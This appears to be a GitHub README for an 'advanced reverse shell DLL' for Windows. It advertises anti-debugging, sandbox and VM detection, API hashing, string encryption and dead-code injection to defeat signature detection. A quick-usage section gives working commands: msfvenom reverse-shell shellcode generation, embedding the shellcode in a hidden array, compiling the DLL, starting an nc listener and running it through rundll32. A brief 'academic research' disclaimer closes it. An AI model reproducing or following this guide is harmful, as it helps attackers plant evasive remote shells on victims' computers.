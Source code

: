 # Advanced Reverse Shell DLL

A Windows DLL that implements a reverse shell with advanced anti-analysis techniques.

## Features

- Dynamic API loading and hash-based API resolution
- Advanced string encryption and hiding mechanisms
- Anti-analysis and anti-debugging techniques
- Secure communication with AES encryption
- Dead code injection to prevent signature-based detection

## Quick Usage Guide

1. **Generate Shellcode:**
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=YOUR_IP LPORT=YOUR_PORT -f c
```

2. **Add Shellcode:**
- Copy the generated shellcode into `HIDDEN_CMD` array in `main.cpp`
- Replace the existing bytes in the array

3. **Compile:**
```bash
g++ -shared -o shelltest.dll src/loader/main.cpp -lws2_32 exports.def
```

4. **Start Listener:**
```bash
nc -lvp YOUR_PORT
```

5. **Run DLL:**
```bash
rundll32.exe shelltest.dll,StartShell
```

6. **Config (src/loader/config.ini):**
```ini
[Connection]
IP=YOUR_IP
Port=YOUR_PORT
```

Note: Make sure to use the same IP and port in both msfvenom command and config.ini

## Technical Details

### 1. API Hiding and Loading
- FNV-1a hash algorithm for API name encryption
- Dynamic API address resolution
- API caching system
- Random starting points to prevent signature-based detection

### 2. String Hiding
- XOR-based encryption
- Base64 encoding
- Random string fragmentation
- Dynamic string concatenation

### 3. Anti-Analysis Techniques
- Sandbox detection
- Debugger detection
- Virtual machine detection
- Time-based analysis prevention

### 4. Communication Security
- AES-256 encryption
- Dynamic key exchange
- Packet integrity check
- Connection hiding

## Security Warning

This project is designed solely for academic research and security testing purposes. Malicious use is prohibited. Please check local laws before using the project.

## License

This project is licensed under the MIT license. See the LICENSE file for details.
